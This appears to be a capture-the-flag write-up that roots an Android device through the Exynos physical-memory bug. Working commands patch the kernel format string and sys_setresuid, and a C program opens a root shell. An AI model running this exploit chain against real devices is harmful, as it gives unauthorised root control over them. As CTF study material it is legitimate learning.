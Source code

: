 [we'll use this for reference](https://github.com/FSecureLABS/mercury-modules/blob/master/metall0id/root/exynosmem/exynos-abuse/jni/exynos-abuse.c)


first we need to make /proc/kallsyms always print the addresses of the symbols, for that we'll first find the format string `%pK %c %s` in the physical memory. For that i used the following bash script:
```sh
for i in `seq 0x100000 0x100000 0xffffffff`
do
    printf "ADDRESS: %x\n" $i
    ./exynos-mem $i `printf "%d" 0x100000` 0| hexdump -C | grep "%pK"
done
```
this outputs a lot of useless stuff but also this

```
ADDRESS: 60400000
00009250  73 74 00 00 3c 25 70 4b  3e 00 00 00 54 69 63 6b  |st..<%pK>...Tick|
00009830  72 65 0a 00 30 78 25 70  4b 0a 00 00 4c 69 76 65  |re..0x%pK...Live|
00009e70  6e 74 00 00 25 70 4b 20  25 63 20 25 73 09 5b 25  |nt..%pK %c %s.[%|
00009e80  73 5d 0a 00 25 70 4b 20  25 63 20 25 73 0a 00 00  |s]..%pK %c %s...| <--- well use this and change it to print always
0000d800  4b 2d 30 78 25 70 4b 20  25 37 6c 64 20 76 6d 5f  |K-0x%pK %7ld vm_|
0000d820  4b 2d 30 78 25 70 4b 20  25 37 6c 64 00 00 00 00  |K-0x%pK %7ld....|
0003ae20  25 70 4b 20 25 2d 33 64  20 25 2d 36 75 20 25 30  |%pK %-3d %-6u %0|
0003ae30  38 78 20 25 2d 38 64 20  25 2d 38 64 20 25 70 4b  |8x %-8d %-8d %pK|
0003b910  25 6c 75 20 25 64 20 25  70 4b 20 25 6c 75 20 25  |%lu %d %pK %lu %|
0003b970  25 75 20 25 64 20 25 70  4b 25 6e 00 25 34 64 3a  |%u %d %pK%n.%4d:|
0003b9c0  64 20 25 70 4b 25 6e 00  25 2a 73 0a 00 00 00 00  |d %pK%n.%*s.....|
0003bc80  25 64 20 25 70 4b 20 25  64 0a 00 00 20 20 73 6c  |%d %pK %d...  sl|
0003bd40  25 6c 75 20 25 64 20 25  70 4b 20 25 64 25 6e 00  |%lu %d %pK %d%n.|
0003e170  61 74 68 0a 00 00 00 00  25 70 4b 3a 20 25 30 38  |ath.....%pK: %08|
0003e350  20 20 49 6e 6f 64 65 0a  00 00 00 00 25 70 4b 20  |  Inode.....%pK |
```

from here we can understand that our string is located at `0x60409e84`. We want to change the `%pK` in the string to just `%p` os i'll just replace the K with a space using the following command:
```sh
printf " " | ./exynos-mem 1614847622 1 1
```

now can get the address of sys_setresuid so we can patch it to always give root even if we are not allowed to.

first get the address

```sh
/ $ cat /proc/kallsyms | grep sys_setresuid
8002f3bc  T sys_setresuid
8006087c  T sys_setresuid16
```
Great it worked, sys_setresuid is at `0x8002f3bc`. But there's a catch, this address is virtual, and the program only lets us access physical memory.
After a bunch of googling i understood that kernel memory is directly mapped to physical one, in our case the virtual kernel memory is at `0x80000000` and the physical one is at `0x60000000` so the phyical address of setresuid is:
```
0x8002f3bc - 0x80000000 + 0x60000000 = 0x6002f3bc 
```

lets take a look at the memory at this address:
```sh
./exynos-mem `printf "%d" 0x6002f3bc` 200 0  | hexdump -e  '16/1 "%02x " "\n"'
f0 41 2d e9 00 50 a0 e1 01 60 a0 e1 02 80 a0 e1
1e 40 00 eb 00 40 50 e2 47 00 00 0a 0d 20 a0 e1
7f 3d c2 e3 3f 30 c3 e3 07 00 a0 e3 0c 30 93 e5
f4 71 93 e5 29 e2 ff eb 00 00 50 e3 25 00 00 1a
01 00 75 e3 08 00 00 0a 04 30 97 e5 03 00 55 e1
05 00 00 0a 14 30 97 e5 03 00 55 e1 02 00 00 0a
0c 30 97 e5 03 00 55 e1 15 00 00 1a 01 00 76 e3
08 00 00 0a 04 30 97 e5 03 00 56 e1 05 00 00 0a
14 30 97 e5 03 00 56 e1 02 00 00 0a 0c 30 97 e5
03 00 56 e1 0a 00 00 1a 01 00 78 e3 0d 00 00 0a
04 30 97 e5 03 00 58 e1 0a 00 00 0a 14 30 97 e5
03 00 58 e1 07 00 00 0a 0c 30 97 e5 03 00 58 e1
processed 200 bytes
04 00 00 0a 00 50 e0 e3
``` 
now yoink the hex into a disassmbler such as [this](https://shell-storm.org/online/Online-Assembler-and-Disassembler/)
we can see this does look like sane code and it seems like we got the right address, now according to the exploit i included in the beginning it should be enough to change the  `cmp  r0, #0` to `cmp  r0, #1`. so let's do that, according to the disassembly the address of `cmp  r0, #0` is at 0x38 so we just add that to our address, and find that this instruction is at `1610806260`. Because the system is little endian, we can change 1 byte at this address to '\x01' to change the instruction to `cmp  r0, #1`. Lets do that:
```sh
printf "\x01" | ./exynos-mem 1610806260 1 1
```
now just setresuid and get shell using a c program:

```c
#include <unistd.h>

int main(int argc, char **argv, char **env)
{
    char *path[2] = {"/bin/sh", NULL};
    setresuid(0, 0, 0);
    execve(path[0], path, env);
}
```

its not over yet! now we have to find the flag! 
in /root we see a weird file called f, but its a binary file so i decide to move it to my own machine to understand what is it, i encode it using base64
```
/ # base64 /root/f
H4sIABuCgVkAA+3OsQ6CQBCE4at9Ch5hEZTa2lL7zRkQSPDO3B0FPr1oa6IVMcb/yyZTzBZzHmxr
FiazUuSZ8poi1cbkheSlbKVaF0ZyKarSZLL0sIcxJhuyzATv07u/T/2POnZ91PlONja1eqehsYPG
5MOkqvux9lGT14O9xNG1al2tu6G5djfbu9W3xwMAAAAAAAAAAAAAAADAH7sD9KsoEwAoAAA=
```

and on my own machine 
```sh
echo H4sIABuCgVkAA+3OsQ6CQBCE4at9Ch5hEZTa2lL7zRkQSPDO3B0FPr1oa6IVMcb/yyZTzBZzHmxrFiazUuSZ8poi1cbkheSlbKVaF0ZyKarSZLL0sIcxJhuyzATv07u/T/2POnZ91PlONja1eqehsYPG5MOkqvux9lGT14O9xNG1al2tu6G5djfbu9W3xwMAAAAAAAAAAAAAAADAH7sD9KsoEwAoAAA= | base64 -d > f
```

use `file` to find what the file type,

```
$ file f                                       
f: gzip compressed data, last modified: Wed Aug  2 07:41:15 2017, from Unix, original size modulo 2^32 10240
```

its gzip, so rename it and uncompress it using gunzip

```sh
mv f f.gz
gunzip f.gz
```

we get a file `f` and in it we can find the flag!